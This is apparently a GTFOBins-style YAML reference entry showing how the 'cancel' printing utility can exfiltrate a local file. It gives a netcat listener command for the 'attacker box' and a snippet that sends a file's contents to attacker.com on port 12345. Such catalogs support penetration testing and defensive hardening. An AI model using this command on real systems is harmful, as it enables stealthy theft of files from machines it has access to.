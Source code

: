 ```yaml
---
functions:
  file-upload:
    - description: Send local file using a TCP connection. Run `nc -l -p 12345 > "file_to_save"` on the attacker box to collect the file.
      code: |
        RHOST=attacker.com
        RPORT=12345
        LFILE=file_to_send
        cancel -u "$(cat $LFILE)" -h $RHOST:$RPORT
---
```

